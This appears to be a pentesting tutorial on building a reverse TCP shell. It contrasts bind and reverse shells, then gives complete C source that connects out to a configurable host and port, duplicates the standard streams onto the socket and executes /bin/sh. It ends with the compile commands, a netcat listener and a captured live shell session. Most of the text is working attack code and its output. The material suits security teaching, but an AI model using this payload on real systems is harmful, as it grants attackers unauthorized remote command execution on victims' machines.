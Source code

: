 # Reverse TCP Shell

<p style="text-align: justify;">Today, we will deal with the process of creating Reverse TCP Shell from scratch. As a rule, we distinguish between two types of shells that interest the pentester:</p>

- Bind TCP Shell
- Reverse TCP Shell

<p style="text-align: justify;">Reverse Shell consists of "sending" the shell, for example "/bin/sh" towards the listening attacker port. Unlike Bind Shell, we no longer need to bind on a port, listen on it and accept connections. All you need is a single sys_connect() syscall that does the same job connecting to, for example, listening netcat.</p>

First, we'll try to reproduce this behavior using a program written in C.

```c
#include <stdio.h>
#include <netinet/in.h>

// change the trget here
#define TARGET "127.0.0.1"
// Change the correct port here
#define PORT 4444

int main(int argc, char **argv)
{	
	// sys_socket()	
	int reverse_socket = socket(AF_INET, SOCK_STREAM, 0);
	
	// sys_connect()
	struct sockaddr_in address;
	
	address.sin_addr.s_addr = inet_addr(TARGET);
	address.sin_port = htons(PORT);
	address.sin_family = AF_INET;

	connect(reverse_socket,(struct sockaddr *)&address, sizeof(address));

	
	// sys_dup2()
	dup2(reverse_socket,2);	// STDERR
	dup2(reverse_socket,1);	// STDOUT
	dup2(reverse_socket,0);	// STDIN
	
	// sys_execve()
	execve("/bin/sh",NULL,NULL);
	
	return 0;
}
```
Let's compile and execute it.
```sh
$ gcc reverse_shell.c -o reverse_shell
$ ./reverse_shell
```
Second terminal:
```sh
$ nc -nvlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 45823)
uname -a
Linux ubuntu 3.5.0-51-generic #76-Ubuntu SMP Thu May 15 21:19:44 UTC 2014 i686 i686 i686 GNU/Linux
```